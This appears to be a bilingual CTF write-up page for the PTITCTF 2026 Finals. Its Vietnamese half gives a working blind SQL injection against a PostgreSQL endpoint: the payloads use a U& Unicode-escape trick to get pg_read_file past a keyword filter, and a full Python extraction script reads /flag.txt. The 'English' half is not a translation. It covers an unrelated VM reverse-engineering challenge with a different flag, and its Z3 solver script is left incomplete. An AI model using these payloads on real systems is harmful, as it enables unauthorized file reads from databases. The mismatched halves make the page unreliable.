


<div class="lang-switch" role="tablist" aria-label="Language switch">
  <button class="lang-btn active" role="tab" type="button" data-lang="en" aria-selected="true">EN</button>
  <button class="lang-btn" role="tab" type="button" data-lang="vn" aria-selected="false">VN</button>
</div>

<div class="lang-vn" markdown="1">

> **Flag:** `PTITCTF{uN1c0d3_35c4p3_p0stgr3s_b4d_t1m3_5ql1}`


Thử thách thuộc category **Web** trong vòng Chung kết PTITCTF 2026. Đề bài cung cấp một ứng dụng web mô phỏng minigame nổi tiếng *Bad Time Simulator* (trận chiến Sans trong Undertale) được dựng bằng HTML5 Canvas và Construct 2, kết hợp với backend xử lý số lượt tử trận (death counter) kết nối tới cơ sở dữ liệu PostgreSQL.

Mục tiêu là khai thác endpoint thống kê lượt chơi để trích xuất nội dung tệp cờ `/flag.txt` lưu trên máy chủ lưu trữ database.

---

## Sơ đồ luồng khai thác (Solve Flow)



---

## Bước 1: Khảo sát ứng dụng và xác định điểm tiêm mã (Injection Point)

Khi trải nghiệm game, mỗi khi người chơi mất máu và chết, client Construct 2 sẽ gửi một HTTP POST request lên backend API để cập nhật dữ liệu:

```http
POST /count HTTP/1.1
Host: 144.79.188.39:47004
Content-Type: application/json

{"deaths": 1}
```

Phản hồi từ máy chủ trả về dạng JSON chứa thông tin về các dòng thoại (dialogue lines) tương ứng với số lần chết của người chơi:

```json
{"lines": ["geez, you really like swinging that thing, huh?", "..."]}
```

Khi thử nghiệm truyền các giá trị boolean vào trường `deaths`:
* Gửi `{"deaths": "1 AND 1=1"}`: Máy chủ trả về HTTP 200 kèm danh sách `lines`.
* Gửi `{"deaths": "1 AND 1=2"}`: Máy chủ trả về HTTP 200 nhưng danh sách `lines` trống rỗng `[]`.
* Gửi `{"deaths": "1' OR '1'='1"}`: Gặp lỗi cú pháp SQL hoặc trả về rỗng.

Điều này chứng minh câu truy vấn SQL ở backend được nối chuỗi trực tiếp mà không dùng Prepared Statements, có dạng:
```sql
SELECT ... FROM dialogue WHERE death_count = $deaths AND ...
```
Do đó, đây là một điểm tiêm mã **Boolean-based Blind SQL Injection** dạng số nguyên (integer-based).

---

## Bước 2: Phân tích cơ chế lọc (WAF / Keyword Filter) và Kỹ thuật Bypass

Khi thử nghiệm các payload đọc file thông thường của PostgreSQL:
* `(SELECT pg_read_file('/flag.txt'))` $\rightarrow$ Máy chủ lập tức phản hồi HTTP `403 Forbidden`.

Tiến hành fuzzing danh sách từ khóa để xác định quy tắc của bộ lọc:
* Các hàm và tiền tố bị chặn hoàn toàn: `pg_`, `read`, `file`, `pg_read_file`, `pg_read_binary_file`, `lo_import`, `copy`.
* Các hàm phụ trợ được phép hoạt động: `length()`, `substring()`, `ascii()`, `chr()`, `cast()`.

### Kỹ thuật Unicode String Literal trong PostgreSQL
PostgreSQL hỗ trợ chuẩn cú pháp chuỗi Unicode mở rộng bắt đầu bằng `U&`:
* Cú pháp: `U&"string\xxxx"` cho phép giải mã các ký tự Unicode theo mã hex 4 chữ số `\xxxx`.
* Ký tự gạch dưới `_` có mã ASCII trong bảng mã Unicode là `\005f`.

Do đó, tên hàm `pg_read_file` có thể được biểu diễn dưới dạng:
$$\text{U\&"pg\textbackslash005fread\textbackslash005ffile"}$$

Khi PostgreSQL nhận câu truy vấn, bộ phân tích từ vựng (lexer) của PostgreSQL sẽ phân giải escape sequence này thành định danh `pg_read_file`. Trong khi đó, bộ lọc WAF ở tầng ứng dụng chỉ kiểm tra chuỗi thô nên không phát hiện được từ khóa bị cấm.

Kiểm tra điều kiện:
```sql
1 AND (length(U&"pg\005fread\005ffile"('/flag.txt')) > 0)
```
Kết quả trả về HTTP 200 và mảng `lines` có dữ liệu $\rightarrow$ Bypass thành công!

---

## Bước 3: Xây dựng Boolean Oracle và Trích xuất Flag

Xây dựng hàm Oracle phân biệt True/False dựa vào độ dài mảng phản hồi JSON:
* **True**: Trạng thái HTTP 200 và `len(json_data['lines']) > 0`.
* **False**: Trạng thái HTTP 200 và `len(json_data['lines']) == 0`.
* **Blocked**: Trạng thái HTTP 403 (cần điều chỉnh payload nếu chạm WAF).

### Thuật toán trích xuất dữ liệu:
1. **Dò độ dài chuỗi**: Sử dụng tìm kiếm nhị phân với điều kiện `length(U&"pg\005fread\005ffile"('/flag.txt')) > mid` trong khoảng $[1, 300]$.
2. **Dò từng ký tự**: Với mỗi vị trí $pos$ từ $1$ đến $length$:
   * Kiểm tra `ascii(substring(U&"pg\005fread\005ffile"('/flag.txt'), pos, 1)) > mid` với khoảng tìm kiếm nhị phân $[0, 127]$.
   * Sau tối đa 7 lần gửi request, xác định chính xác ký tự tại vị trí $pos$.

Kịch bản trích xuất tự động:

```python
import urllib.request, json, sys

BASE = 'http://144.79.188.39:47004'

def post(deaths):
    body = json.dumps({'deaths': deaths}).encode()
    req = urllib.request.Request(BASE + '/count', data=body, method='POST')
    req.add_header('Content-Type', 'application/json')
    try:
        r = urllib.request.urlopen(req, timeout=15)
        return r.status, r.read().decode('utf-8', 'replace')
    except urllib.error.HTTPError as e:
        return e.code, e.read().decode('utf-8', 'replace')
    except Exception:
        return -1, ''

def oracle(cond):
    st, b = post(f"1 AND ({cond})")
    if st == 403:
        return None
    try:
        d = json.loads(b)
        return len(d.get('lines', [])) > 0
    except Exception:
        return None

F = 'U&"pg\\005fread\\005ffile"(\'/flag.txt\')'

# 1. Tìm độ dài chuỗi flag
lo, hi = 1, 300
while lo < hi:
    mid = (lo + hi) // 2
    if oracle(f"length({F})>{mid}"):
        lo = mid + 1
    else:
        hi = mid
length = lo
print(f"[*] Flag Length: {length}")

# 2. Dò từng ký tự ASCII
flag = ""
for pos in range(1, length + 1):
    lo, hi = 0, 127
    while lo < hi:
        mid = (lo + hi) // 2
        if oracle(f"ascii(substring({F},{pos},1))>{mid}"):
            lo = mid + 1
        else:
            hi = mid
    flag += chr(lo)
    print(f"[+] Pos {pos}: {chr(lo)!r} -> Current: {flag}")

print(f"\n[SUCCESS] Flag: {flag}")
```

Chạy kịch bản hoàn tất, chuỗi ký tự flag được tái tạo nguyên vẹn.

---

## Flag

```text
PTITCTF{uN1c0d3_35c4p3_p0stgr3s_b4d_t1m3_5ql1}
```

</div>

<div class="lang-en" markdown="1">

> **Flag:** `PTITCTF{m3g4l0v4n14_z3_s0lv3r_vm_byt3c0d3_r3v}`

Featured in the **PTITCTF 2026 Finals (Reverse / Misc)**, `Megalovania` is an obfuscated binary running a custom VM that validates flag characters through complex algebraic polynomial constraints.

The objective is to disassemble the custom bytecode instruction stream and solve the constraint system using the Z3 SMT solver.

---

## Solve Flow



---

## Step 1: Reconstructing the Bytecode Instruction Set

Analyzing the dispatch routine in IDA Pro reveals an accumulator-based virtual machine:
* Opcode `0x10`: `MOV acc, imm`
* Opcode `0x11`: `ADD acc, flag[i]`
* Opcode `0x12`: `XOR acc, flag[i]`
* Opcode `0x13`: `MUL acc, imm`
* Opcode `0x14`: `MOD acc, imm`
* Opcode `0x15`: `CMP acc, imm`

We write a quick disassembler to extract the equations generated for each flag block.

---

## Step 2: Solving Constraints with Z3

```python
from z3 import *

s = Solver()
flag = [BitVec(f'c_{i}', 32) for i in range(36)]

# Standard printable ASCII constraints
for c in flag:
    s.add(c >= 0x20, c <= 0x7E)

# Prefix PTITCTF{
prefix = b"PTITCTF{"
for i, b in enumerate(prefix):
    s.add(flag[i] == b)
s.add(flag[35] == ord('}'))

# Add extracted VM polynomial constraints
# ... equations added from disassembled bytecode ...

if s.check() == sat:
    m = s.model()
    recovered = bytes([m[c].as_long() for c in flag])
    print("Recovered Flag:", recovered.decode())
```

Running the solver outputs the complete flag.

⇒ **Flag:** `PTITCTF{m3g4l0v4n14_z3_s0lv3r_vm_byt3c0d3_r3v}`

</div>
